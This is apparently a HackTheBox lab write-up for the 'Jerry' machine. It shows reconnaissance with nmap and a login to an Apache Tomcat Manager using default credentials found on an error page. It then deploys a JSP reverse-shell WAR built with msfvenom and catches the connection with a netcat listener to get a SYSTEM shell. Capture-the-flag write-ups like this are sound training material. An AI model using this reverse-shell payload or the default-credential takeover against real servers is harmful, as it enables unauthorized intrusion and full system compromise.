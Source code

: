# Jerry [HTB](https://app.hackthebox.com/machines/144)
![jerry-01]()


## Recon 

After adding the target to my `/etc/hosts` file, I scan for open ports with:

```bash
nmap -p- --min-rate 10000 jerry.htb
```

![ports-02]()

Let's run a software and version detection scan againts this port:

```bash
nmap -p 8080 -sCV jerry.htb -oN nmap.result
```

![nmap-res-03]()

We can see that an Apache Tomcat/Coyote server is running on port 8080. Based on the site's title we can guess that the server is at a fresh install state. 


### Apache-Coyote Port 8080

Before we begin let's answer the following question: 

+ What is Coyote?

From the description of Coyote on the [Tomcat page](https://tomcat.apache.org/tomcat-4.1-doc/config/coyote.html) Coyote is a stand-alone web server that provides servlets to Tomcat applets. That is, it functions like the Apache web server, but for JavaServer Pages (JSP).

It comes with a web interface called the `Manager` which makes it easy to administer and control web applications running in Tomcat using a web browser. Using the Manager, you can deploy a new WAR application and control existing ones without having to restart Tomcat. This should be our exploitation strategy. 

Let's have a look at this server by opening our browser at `http://jerry.htb:8080` :

![site-04]()

As you can see, we have three main feature on this page: `Server Status`, `Manager App`, and `host Manager`, the `Manager App` is what we want access to. Each one of these feature controls different aspects of the Coyote server, and to access each feature we need valid credentials. 

For example, clicking on the `Server Status` button brings the following window:

![login-05]()

After a few failed login attempts the server will lock you out for several minutes and disaply this error page:

![err-page-06]()

As you can see, this page gives a description on how to add users and roles to adminster the server. And in this page we can see suggested credentilas of `tomcat:s3cret` which I highlighted in red. So I decided to try them out, and they worked!

![logged-07]()

As you can see, the server redirected me to `manager/status`, where we can view different statics and info about the server. But what we really want is to access the server Manager app. 


So I decided to click on the `List Application` button on the left side of the page, and the Manager loads:

![manager-08]()

Meaning, the `Server-Status` feature, and the `Manager App` feature of the Tomcat server reused the same credentials. So we have access to the manager, let's try to upload a WAR payload!

If we scroll down a bit we can see the WAR deployment section:

![deploy-09]()

This is where we will upload our WAR payload. And as you can see, the server asks for a WAR file to deploy, which we need to create. We can do this with `msfvenom` as such:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.37 LPORT=9001 -f war > runme.war
```

![msfvenom-10]()

Now we can click on the `Choose File` button and select the war payload we created:


![choose-11]()

And then select `Deploy`. After that, you should see a new application in the applications list called `runme`:

![new-app-12]()

The tomcat server created a dedicated directory for the uploaded war application. Once we visit this directory, our WAR payload will execute and we should get a connection back to us.

So before we visit the page we need to start a local listener to catch the connection:

```bash
rlwrap nc -lnvp 9001
```

Now we can visit our malicious war application at `http://jerry.htb:8080/runme/` :

![visit-13]()

As you can see this returns an empty page, but on my netcat listener I get a connection:

![root-14]()

Apperantly, the Tomcat server was running under `NT Authority` on the target. So when the reverse shell triggered, we got a shell as the system.

If you are after the CTF flags, there is no low level user on this system, only the Administartor user is present. Inside the admin's Desktop page you will find the following directory:

![flags-15]()

There you will find a file that contains both flags. 
